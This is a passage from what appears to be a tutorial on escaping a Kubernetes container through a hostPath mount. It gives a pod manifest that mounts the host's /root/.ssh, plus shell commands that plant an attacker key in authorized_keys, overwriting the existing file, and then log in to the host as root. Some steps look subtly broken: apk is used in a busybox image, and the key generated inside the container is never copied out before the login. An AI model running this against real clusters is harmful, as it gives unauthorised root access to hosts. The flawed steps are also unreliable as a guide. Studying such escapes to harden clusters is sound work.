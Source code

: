    In most cases, this step will not result in a root shell, as many other system requirements exist such as a proper user home directory. However, the potential is there in older, improperly configured systems.

3.  **More Realistic Exploitation: Setup SSH Key (Example):**

    Given the `busybox` container likely doesn't have SSH tools, we need to mount the path `/root/.ssh` and then inject our public key into the authorized_keys file, then login with our private key. Note this will overwrite any previous `authorized_keys`.  This is only valid if the host allows root logins.

    Update the `pod.yaml` file to include a volume mount for /root/.ssh:

    ```yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: hostpath-test
    spec:
      containers:
        - name: busybox
          image: busybox:latest
          command: ["sleep", "3600"]
          volumeMounts:
            - name: host-volume
              mountPath: /host
            - name: ssh-volume
              mountPath: /root_ssh # changed
      volumes:
        - name: host-volume
          hostPath:
            path: /tmp/hostpath_test
            type: DirectoryOrCreate
        - name: ssh-volume
          hostPath:
            path: /root/.ssh # changed
            type: DirectoryOrCreate
    ```

    Apply the updated manifest and get a shell inside. Generate an SSH key pair. Copy the public key to the `/root_ssh/authorized_keys` file. Login to the host.

    ```bash
    kubectl apply -f pod.yaml
    kubectl exec -it hostpath-test -- sh
    apk add openssh-client openssh-keygen # Install ssh tools inside the container
    ssh-keygen -t rsa -N "" -f /root/.ssh/id_rsa  # Generate a key pair
    cat /root/.ssh/id_rsa.pub > /root_ssh/authorized_keys  # Add the public key
    exit
    ssh root@<host_ip> -i /path/to/your/id_rsa
    ```

    **Explanation:** This is a more practical exploitation scenario. We mount the `/root/.ssh` directory from the host into the container. We then generate an SSH keypair and add the public key to the `authorized_keys` file.  After that, we attempt to SSH into the host as root using the newly generated private key.

